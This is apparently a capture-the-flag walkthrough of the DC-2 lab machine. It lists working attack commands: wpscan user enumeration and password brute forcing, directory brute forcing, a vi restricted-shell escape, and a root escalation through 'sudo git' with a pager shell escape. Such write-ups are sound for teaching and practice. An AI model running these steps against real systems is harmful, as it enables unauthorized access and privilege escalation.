# DC-2 - Enumeration & Exploitation

## Network Discovery

```bash
netdiscover -r <ATTACKER-IP>
```

- Performed network discovery to identify active hosts in the local subnet.
- Identified the target machine:
  - `192.168.0.111`
  - `PCS Systemtechnik GmbH`



---

## Initial Nmap Scan

```bash
nmap -sV -sC 192.168.0.111
```

- Performed service enumeration against the target system.
- Identified:
  - Port 80 (HTTP)
  - Port 7744

- Further analysis revealed that port `7744` was running an SSH service.


---

## Website Access Issue

```bash
http://192.168.0.111
```

- Initially unable to access the target website directly through the IP address.



---

## Modifying Hosts File

```bash
sudo nano /etc/hosts
```

- Added the target IP address and domain name to the local hosts file for proper name resolution.



---

## Website Successfully Loaded

- After modifying the hosts file, the website loaded successfully in the browser.



---

## First Flag Discovery

- Identified the first flag on the website.
- The flag provided a hint to authenticate as a valid user to retrieve the next flag.



---

## WordPress User Enumeration

```bash
wpscan --url http://dc-2 -e u
```

### Explanation

- `-e`
  - Enumeration mode.

- `u`
  - Enumerate WordPress users.

- Identified the following usernames:
  - `admin`
  - `tom`
  - `jerry`



---

## Password Wordlist Generation Using CeWL

```bash
cewl http://dc-2
```

- Used CeWL to:
  - Crawl webpages
  - Extract unique words
  - Build a custom password wordlist



---

## Preparing Username & Password Files

- Created:
  - `usr.txt`
    - containing discovered usernames
  - `pass.txt`
    - containing passwords generated using CeWL



---

## Brute Forcing WordPress Credentials

```bash
wpscan --url http://dc-2 -U usr.txt -P pass.txt
```

### Explanation

- `-U`
  - Specify usernames from a file.

- `-P`
  - Specify passwords from a file.

- Successfully identified valid credentials for:
  - `tom`
  - `jerry`



---

## Subdirectory Enumeration

```bash
dirb http://dc-2 -r
```

- Performed directory brute forcing against the web application.
- Identified additional accessible directories including:
  - `wp-login.php`



---

## WordPress Login

- Used the previously discovered credentials to authenticate through the WordPress login page.



---

## Login as Tom

- Successfully authenticated as:
  - `tom`



---

## Login as Jerry

- Successfully authenticated as:
  - `jerry`



---

## Second Flag Discovery

- Retrieved the second flag from Jerry’s page.



---

## SSH Authentication Attempt as Jerry

```bash
ssh jerry@dc-2 -p 7744
```

- Attempted SSH authentication using Jerry’s credentials.
- Authentication failed due to permission restrictions.



---

## SSH Login as Tom

```bash
ssh tom@dc-2 -p 7744
```

- Successfully authenticated to the SSH service as:
  - `tom`



---

## Third Flag Discovery

```bash
less flag3.txt
```

- Retrieved the third flag using the `less` command.
- Commands such as `cat` were restricted in the current shell environment.



---

## Restricted Shell Enumeration

```bash
echo $PATH
```

or

```bash
ls /home/tom/usr/bin
```

- Enumerated available commands in the restricted shell environment.
- Identified only the following accessible commands:
  - `less`
  - `ls`
  - `scp`
  - `vi`



---

## Escaping Restricted Shell Using vi

Inside `vi`:

```bash
:set shell=/bin/bash
```

### Explanation

- Configured `vi` to use `/bin/bash` as the default shell.
- Since `vi` can execute external programs, this allowed bypassing the restricted shell environment.



---

## Shell Escape & PATH Modification

Inside `vi`:

```bash
:shell
```

- Spawned a normal Bash shell from within `vi`.

```bash
export PATH=/bin:/usr/bin:$PATH
```

- Expanded the system PATH variable to access additional system binaries and commands.

```bash
export SHELL=/bin/bash
```

- Configured the default shell environment to Bash.



---

## Switching User to Jerry

```bash
su jerry
```

- After escaping the restricted shell environment:
  - Additional commands became accessible
  - Full shell functionality was restored

- Successfully switched user from:
  - `tom`
  - to `jerry`



---

## Privilege Escalation Research Using GTFOBins

- A hint from the fourth flag suggested privilege escalation related to:
  - `git`

- Researched exploitation techniques using:
  - GTFOBins



---

## Privilege Escalation Using Git

```bash
sudo git -p help config
```

Inside the pager:

```bash
!/bin/bash
```

- Exploited the `git` binary to spawn a root shell.
- Successfully escalated privileges to the root user.



---

## Final Flag Discovery

```bash
cd /root
ls
```

- Navigated to the root directory.
- Retrieved the final flag:
  - `finalflag.txt`


